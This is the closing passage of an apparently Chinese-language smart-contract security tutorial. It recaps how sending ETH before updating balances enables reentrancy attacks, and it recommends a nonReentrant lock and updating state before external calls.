我们看到一个**微小错误**——在更新余额之前发送 ETH——如何打开了可致命的**重入攻击**大门。随后我们观察到聪明的攻击者如何**像吃豆人一样在金库中循环掠食**，不断抽走资金。

但有了正确的防护：

- ✅ 一个 `nonReentrant` 锁
- ✅ 在与外部交互前更新状态

我们就能彻底**遏制漏洞**。

这就是编写智能合约真正的意义——不仅仅是构建炫酷功能，而是确保它们坚如磐石，不被滥用。

所以不管你是在构建 DApp、DeFi 协议，还是下一个 Web3 诺克斯堡……记住：

> 保护好你的黄金。重入漏洞是真实存在的。
> 

下一份合约，Go!